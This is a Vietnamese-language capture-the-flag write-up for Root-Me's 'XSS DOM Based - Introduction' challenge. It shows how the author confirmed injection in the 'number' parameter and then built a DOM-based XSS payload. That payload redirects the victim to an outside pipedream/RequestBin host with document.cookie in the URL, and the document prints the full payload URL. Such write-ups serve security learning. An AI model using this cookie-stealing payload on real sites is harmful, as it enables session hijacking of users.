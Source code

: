 # [XSS DOM Based - Introduction](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Introduction)

Sau khi thử submit, thì ta có thể xem được script của website:

<img src="./media/image1.png" style="width:6.5in;height:2.34861in" alt="Text Description automatically generated" />

Lúc này, tham số number sẽ đảm nhận nhận input. Ta thử kiểm tra XSS ở ô này bằng payload **‘;alert(1)//** thì thấy thành công:

<img src="./media/image2.png" style="width:6.5in;height:1.01875in" alt="Graphical user interface, text, application Description automatically generated" />

Ta sẽ dùng document.location để redirect website đến HTTP Request và payload để DOM based XSS như sau (ta dùng RequestBin tạo từ <https://requestbin.in>): `';document.location=%27https://eol9dtzbk9673pb.m.pipedream.net/?cookies=%27%2bdocument.cookie;//`

<img src="./media/image3.png" style="width:6.5in;height:0.8375in" alt="Graphical user interface, text, application Description automatically generated" />

Website đã chuyển hướng thành công, giờ ta sẽ thực hiện POST lên bằng form bên tag contact:

<img src="./media/image4.png" style="width:6.5in;height:1.55972in" alt="Graphical user interface, text, application Description automatically generated" />

Ta thực hiện điền payload bên dưới đến POST lên và đợi cookie được trả về tại RequestBin:

<http://challenge01.root-me.org/web-client/ch32/?number=%27;document.location=%27https://eol9dtzbk9673pb.m.pipedream.net/?cookies=%27%2bdocument.cookie//>

<img src="./media/image5.png" style="width:6.5in;height:1.64444in" alt="Graphical user interface, application, Teams Description automatically generated" />

- Flag: "****************************"
